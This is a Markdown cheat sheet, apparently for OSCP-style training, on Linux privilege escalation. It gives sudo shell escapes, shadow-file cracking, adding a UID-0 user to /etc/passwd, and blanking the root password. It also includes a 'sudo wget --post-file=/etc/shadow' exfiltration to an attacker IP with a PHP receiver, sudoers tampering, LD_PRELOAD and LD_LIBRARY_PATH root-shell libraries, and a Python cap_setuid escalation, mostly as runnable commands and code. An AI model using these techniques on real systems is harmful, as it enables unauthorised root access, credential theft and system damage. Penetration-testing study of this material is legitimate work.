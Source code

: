 # Sudo Abuse

## Quick Win

Do we have sudo priviliage already ? If so -> game over : )

```
bob@victimlinux:~/#: sudo su -
```

## Sudo SUIDs (Shell Escape Sequences)

This techniques uses common Unix binaries to bypass local security restrictions and privilaige esclation, read more here: https://github.com/RootInj3c/OSCP-PwK/blob/master/Linux/SUID_Bash.md#gtfobins

Examples:

```
bob@victimlinux:~/#: sudo find /bin -name nano -exec /bin/sh \;
bob@victimlinux:~/#: sudo awk 'BEGIN {system("/bin/sh")}'
bob@victimlinux:~/#: echo "os.execute('/bin/sh')" > shell.nse && sudo nmap --script=shell.nse
bob@victimlinux:~/#: sudo vim -c '!sh'
```

## Shadow file abuse (trick 1 - Read-Only required)

If shadow file has read permission, copy the root hash and use john the ripprt (JTR) to crack it.

First create unshadow file using the passwd and shadow files:

```
root@kali:~/#: unshadow passwd-file.txt shadow-file.txt > unshadowed.txt
```

Then, feed them in JTR:

```
root@kali:~/#: john unshadow_file --wordlist=/usr/share/wordlists/rockyou.txt
```

## Shadow file abuse (trick 2 - World-Writable required)

Is /etc/shadow is world-writable?

```
bob@victimlinux:~/#: root@kali:~/# ls -la /etc/shadow
-rwxrwxrwx 1 root shadow 1755 Nov 25 06:14 /etc/shadow
```

If so, then let's create us a password:

```
bob@victimlinux:~/#: perl -le ‘print crypt(“Password@973″,”addedsalt”)’
```

Append it as new root user to the passwd file:

```
bob@victimlinux:~/#: echo "hacker:<our_generated_password>:0:0:User_like_root:/root:/bin/bash" >> /etc/passwd
```

*NOTE*: Another trick would be reset root password, but it may lead to unstable machine FYI:

```
bob@victimlinux:~/#: echo 'root::0:0:root:/root:/bin/bash' > /etc/passwd; su

```

Another cool trick (if you have sudo on wget) is to copy your victim /etc/passwd file to your local machine as following:

```
bob@victimlinux:~/#: sudo wget --post-file=/etc/shadow 192.168.10.1:8080
```

Example Backend code (PHP) on you kali machine:

```
<?php
$capture = file_get_contents("php://input");
$myfile = fopen("passwd", "w") or die("Unable to open file!");
fwrite($myfile, $capture);
fclose($myfile);
echo "Logged 1337Hacker :)";
?>
```

Change the passwd file by the same way described above offline, then download it back to victim host using Wget command:

```
bob@victimlinux:~/#: sudo wget http://192.168.10.1:8080/passwd -O /etc/passwd
```

## Sudoers Abuse

The sudoers file is like rules-file considering the decision making about granting an access to user.

For example:

```
bob@victimlinux:~/#: sudo -l
Matching Defaults entries for root on kali:
    env_reset, mail_badpass

User user may run the following commands on kali:
    root ALL=(ALL) ALL
    bob ALL = (root) NOPASSWD: /usr/bin/find
...
```

The first line means that user can execute from any terminal, under any user with any command.
The 2nd line means that user bob could execute from any terminal and execute find utility as root user without password.

To abuse it, let's try to add our user (www-data) with no password to /etc/sudoers file:

```
bob@victimlinux:~/#: echo 'chmod 777 /etc/sudoers && echo "www-data ALL=NOPASSWD:ALL" >> /etc/sudoers && chmod 440 /etc/sudoers' > /tmp/update
```

### LD_PRELOAD

When using *sudo -l* command, if you notice LD_PRELOAD and environment variable env_keep option, for example:

```
bob@victimlinux:~/#: sudo -l
Matching Defaults entries for user on this host:
     env_reset, env_keep+=LD_PRELOAD, env_keep+=LD_LIBRARY_PATH
...
```

Then we create our .so (shared libarary) file as following:

```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
   unsetenv("LD_PRELOAD");
   setresuid(0,0,0);
   system("/bin/bash -p");
}
```

Compile as following:

```
bob@victimlinux:~/#: gcc -fPIC -shared -nostartfiles -o /tmp/preload.so preload.c
```

And we execute our file using any allowed program using sudo:

```
bob@victimlinux:~/#: sudo LD_PRELOAD=/tmp/preload.so apache2
# id
uid=0(root) gid=0(root) groups=0(root)
```

*NOTE*: Depend on your machine, this trick disabled by default for most linux dists.


### LD_LIBRARY_PATH

If some program has shared libraries, we may creating a shared library with the same name as one used by a program, and setting LD_LIBRARY_PATH to its parent directory, the program will load our shared library instead.

To test wheter shared libraries program use we'll use ldd command:

```
bob@victimlinux:~/#: ldd /usr/sbin/wget
linux-vdso.so.1 => (0x00007fff063ff000)
...
libcrypt.so.1 => /lib/libcrypt.so.1 (0x00007f7d4199d000)
libdl.so.2 => /lib/libdl.so.2 (0x00007f7d41798000)
```

Let's create our payload:

```
#include <stdio.h>
#include <stdlib.h>
static void hijack() __attribute__((constructor));
void hijack() {
   unsetenv("LD_LIBRARY_PATH");
   setresuid(0,0,0);
   system("/bin/bash -p");
}
```

Compiling as following:

```
bob@victimlinux:~/#: gcc -o libcrypt.so.1 -shared -fPIC library_path.c
```

Now the next step really depend on the shared library we would like to hijack. For most case, it just try one-by-one:

```
bob@victimlinux:~/#: sudo LD_LIBRARY_PATH=. apache2
# id
uid=0(root) gid=0(root) groups=0(root)
```

## Binary capabilities

Similiar to SUID, the binary capabilities may give additional permission to preform network operation such as intercept network.

First lets running the getcap command on commonly used directories:

```
bob@victimlinux:~/#: getcap -r /bin/;getcap -r /usr/bin/;getcap -r /usr/sbin/;
/usr/bin/tcpdump = cap_net_admin,cap_net_raw+eip
/usr/bin/fping = cap_net_raw+ep
/usr/bin/python = cap_setuid+eip
/usr/bin/slock = cap_dac_override,cap_sys_resource+ep
/usr/bin/gnome-keyring-daemon = cap_ipc_lock+ep
/usr/bin/ping = cap_net_raw+ep
```

Now we can run tcpdump on all the interfaces to intercept network packets.

But more important as we found Python has *cap_setuid+eip* capabilities we can esclate to root using the famouse trick:

```
bob@victimlinux:~/#: python -c 'import os; os.setuid(0); os.system("/bin/bash ")'
```

Read more about binary capabilities here: http://man7.org/linux/man-pages/man7/capabilities.7.html
